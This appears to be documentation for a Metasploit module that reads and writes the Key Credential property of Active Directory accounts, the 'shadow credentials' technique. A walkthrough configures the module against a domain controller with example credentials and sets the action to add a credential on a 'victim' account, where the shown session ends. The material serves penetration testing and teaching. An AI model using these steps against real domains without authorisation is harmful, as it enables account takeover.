 ### TARGET_USER
The user (or computer) account being targeted. This is the object whose Key Credential property is the target of the ACTION
(read, write, etc.). The authenticated user must have the appropriate access to this object.

### DEVICE_ID
The certificate ID to delete when using the `REMOVE` action. You can retrieve Certificate IDs for a user account by using the `LIST` action.

## Scenarios

### Window Server 2022 Domain Controller, Targeting user account

In the following example the user `MSF\sandy` has write access to the user account `victim`. We will start the attack using the `admin/ldap/shadow_credentials` module.

```msf
msf6 auxiliary(admin/ldap/shadow_credentials) > show options

Module options (auxiliary/admin/ldap/shadow_credentials):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DOMAIN                        no        The domain to authenticate to
   PASSWORD                      no        The password to authenticate with
   RHOSTS                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        389              yes       The target port
   SSL          false            no        Enable SSL on the LDAP connection
   TARGET_USER                   yes       The target to write to
   USERNAME                      no        The username to authenticate with


   When ACTION is REMOVE:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEVICE_ID                   no        The specific certificate ID to operate on


Auxiliary action:

   Name  Description
   ----  -----------
   LIST  Read all credentials associated with the account



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/ldap/shadow_credentials) > set rhosts 20.92.148.129
rhosts => 20.92.148.129
msf6 auxiliary(admin/ldap/shadow_credentials) > set domain MSF.LOCAL
domain => MSF.LOCAL
msf6 auxiliary(admin/ldap/shadow_credentials) > set username sandy
username => sandy
msf6 auxiliary(admin/ldap/shadow_credentials) > set password Password1!
password => Password1!
msf6 auxiliary(admin/ldap/shadow_credentials) > set target_user victim
target_user => victim
msf6 auxiliary(admin/ldap/shadow_credentials) > set action add
action => add
```